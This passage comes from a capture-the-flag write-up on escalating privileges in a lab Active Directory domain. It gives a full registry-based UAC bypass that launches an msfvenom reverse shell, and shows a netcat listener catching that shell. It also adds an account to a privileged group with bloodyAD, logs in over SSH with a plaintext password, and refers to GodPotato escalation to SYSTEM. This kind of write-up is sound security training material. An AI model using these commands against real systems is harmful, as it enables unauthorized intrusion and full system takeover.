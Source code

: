 This can be simply bypassed with any of the `UAC` bypass methods, for example using `computerdefaults.exe`. Where `C:\Windows\Tasks\revshell.exe` is a reverse shell generated with [msfvenom](https://www.offsec.com/metasploit-unleashed/msfvenom/).

```
C:\Windows\system32> reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "C:\Windows\Tasks\revshell.exe" /f && start computerdefaults.exe
```

From here, we can follow the same steps as before to obtain a reverse shell as `svc_sql`, and finally escalate to `NT AUTHORITY\SYSTEM` using `GodPotato`.

```
~$ nc -lnvp 8443
listening on [any] 8443 ...
connect to [198.51.100.5] from (UNKNOWN) [10.5.10.11] 60583

PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

## Path 4: Adding `svc_sql` to `senior-developers`

This was a path that we were aware of during the competition, but was explicitly forbidden in the rules as it may be disruptive to other players. Anyway, this path is quite straightforward - simply using `jolene.ong` to add `svc_sql` to the `senior-developers` group, which can `SSH` into `sql01.antennae.rv`:

```
~$ bloodyAD --host 'dc01.antennae.rv' -u 'jolene.ong' -p 'BoXALrqvqPd3' add groupMember 'senior-developers' 'svc_sql'
[+] svc_sql added to senior-developers
```

We can then `SSH` into `sql01.antennae.rv` as `svc_sql`:

```
~$ sshpass -p 'P@ssw0rd_f0r_SQL-antennae' ssh 'svc_sql'@sql01.antennae.rv

PS C:\Users\svc_sql> whoami
antennae\svc_sql
```

Similar to before, we can do the `SeImpersonatePrivilege` exploit with `GodPotato` to escalate to `NT AUTHORITY\SYSTEM`.
